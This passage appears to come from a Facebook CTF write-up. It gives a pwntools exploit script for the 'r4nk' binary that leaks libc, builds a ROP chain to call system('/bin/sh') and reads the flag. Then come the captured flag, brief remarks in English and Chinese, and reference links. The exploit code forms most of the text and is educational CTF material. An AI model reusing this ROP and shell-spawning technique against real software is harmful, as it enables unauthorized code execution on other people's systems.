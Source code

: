 ```python
gene=0x000000000400B3A
do_call=0x000000000400B20
context.log_level='debug'
libc=ELF("./libc-2.27.so")
p=process('./r4nk')
#p=remote("challenges.fbctf.com",1339)
rank(0,cal(0x00000000004004D8))
show()
p.readuntil("0. ")
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7af4140-0x7ffff79e4000)
log.warning(hex(base))
raw_input()
one=base+0x4f2c5
#gdb.attach(p,'b *0x000000000400ACD')

rank(17,gene)
rank(18,0)#rbx
rank(19,1)#rbp
rank(20,0x000000000602030)#r12
rank(21,0x0)#r13
rank(22,0x000000000602050)#14
rank(23,0x10)#15
rank(24,do_call)
rank(32,rdi)
rank(33,0x000000000602050+8)
rank(34,exit)

cmd(3)
p.send(p64(libc.sym['system']+base)+"/bin/sh\x00")
sleep(1)
p.sendline("cat /home/r4nk/flag")
p.interactive()

#flag{wH0_n33ds_pop_rdx_4NYw4y}
```

# summary
emm , that all chanllenges I solved in the game ,thank facebook for this game !
and It's important have a fast vps.....several times I slove the challenge but can't get the flag. 


# Addition
以下部分是一些复现题目,最进期末可能时间不多不能如数复现。

# opt_server
这题是值得反思的。。。
比赛的时候死活做不出来我居然睿智地认为自己已经做出来了只是网速问题。。。
其实我根本没有get到point。


[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team